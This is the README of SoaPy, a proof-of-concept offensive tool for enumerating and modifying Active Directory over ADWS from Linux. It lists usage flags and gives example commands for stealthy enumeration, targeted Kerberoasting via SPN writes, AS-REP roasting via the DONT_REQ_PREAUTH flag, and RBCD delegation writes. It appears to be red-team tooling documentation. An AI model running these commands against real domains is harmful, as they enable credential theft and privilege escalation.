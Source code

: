 # Description
SoaPy is a Proof of Concept (PoC) tool for conducting offensive  interaction with Active Directory Web Services (ADWS) from Linux hosts. SoaPy includes previously undeveloped custom python implementations of a collection of Microsoft protocols required for interaction with the ADWS service. This includes but is not limited to: NNS (.NET NegotiateStream Protocol), NMF (.NET Message Framing Protocol), and NBFSE (.NET Binary Format: SOAP Extension).


SoaPy can be primarily utilized to interact with ADWS for stealthy enumeration over a proxy into an internal Active Directory environment. Additionally SoaPy can perform targeted exploitation over ADWS, including `servicePrincipalName` writing for targeted Kerberoasting, `DON’T_REQ_PREAUTH` writing for targeted ASREP-Roasting, and the ability to write to `msDs-AllowedToActOnBehalfOfOtherIdentity` for Resource-Based Constrained Delegation attacks. 



# Usage

```

███████╗ ██████╗  █████╗ ██████╗ ██╗   ██╗
██╔════╝██╔═══██╗██╔══██╗██╔══██╗╚██╗ ██╔╝
███████╗██║   ██║███████║██████╔╝ ╚████╔╝ 
╚════██║██║   ██║██╔══██║██╔═══╝   ╚██╔╝  
███████║╚██████╔╝██║  ██║██║        ██║   
╚══════╝ ╚═════╝ ╚═╝  ╚═╝╚═╝        ╚═╝   
    
usage: soapy [-h] [--debug] [--ts] [--hash nthash] [--users] [--computers] [--groups] [--constrained] [--unconstrained] [--spns] [--asreproastable] [--admins] [--rbcds]
             [-q query] [--filter attr,attr,...] [--rbcd source] [--spn value] [--asrep] [--account account] [--remove]
             connection

Enumerate and write LDAP objects over ADWS using the SOAP protocol

positional arguments:
  connection            domain/username[:password]@<targetName or address>

options:
  -h, --help            show this help message and exit
  --debug               Turn DEBUG output ON
  --ts                  Adds timestamp to every logging output.
  --hash nthash         Use an NT hash for authentication

Enumeration:
  --users               Enumerate user objects
  --computers           Enumerate computer objects
  --groups              Enumerate group objects
  --constrained         Enumerate objects with the msDS-AllowedToDelegateTo attribute set
  --unconstrained       Enumerate objects with the TRUSTED_FOR_DELEGATION flag set
  --spns                Enumerate accounts with the servicePrincipalName attribute set
  --asreproastable      Enumerate accounts with the DONT_REQ_PREAUTH flag set
  --admins              Enumerate high privilege accounts
  --rbcds               Enumerate accounts with msDs-AllowedToActOnBehalfOfOtherIdentity set
  -q query, --query query
                        Raw query to execute on the target
  --filter attr,attr,...
                        Attributes to select from the objects returned, in a comma seperated list

Writing:
  --rbcd source         Operation to write or remove RBCD. Also used to pass in the source computer account used for the attack.
  --spn value           Operation to write the servicePrincipalName attribute value, writes by default unless "--remove" is specified
  --asrep               Operation to write the DONT_REQ_PREAUTH (0x400000) userAccountControl flag on a target object
  --account account     Account to preform an operation on
  --remove              Operarion to remove an attribute value based off an operation

```
# Installation
With `pipx`:
```
pipx install .
```


With `poetry`:
```
poetry install
```

# Example Usage

Enumerate users using preset enumeration flags:
```
soapy <domain>/<user>:'<password>'@<ip> --users
```

Enumerate computers `samAccountName` and `objectSid` using a custom query/attribute filtering:
```
soapy <domain>/<user>:'<password>'@<ip> --query '(objectClass=computer)' --filter "samaccountname,objectsid"
```

Write `msDs-AllowedToActOnBehalfOfOtherIdentity` on DC01, enabling delegation from MS01 for an RBCD attack:
```
soapy <domain>/<user>:'<password>'@<ip> --rbcd 'MS01$' --account 'DC01$'
```

Write the `servicePrincipalName` attribute on jdoe as part of a targeted Kerberoasting attack:
```
soapy <domain>/<user>:'<password>'@<ip> --spn test/spn --account jdoe
```

Write `DONT_REQ_PREAUTH` (0x400000) on jdoe's `userAccountControl` attribute, making the account ASREP-Roastable:
```
soapy <domain>/<user>:'<password>'@<ip> --asrep --account jdoe
```
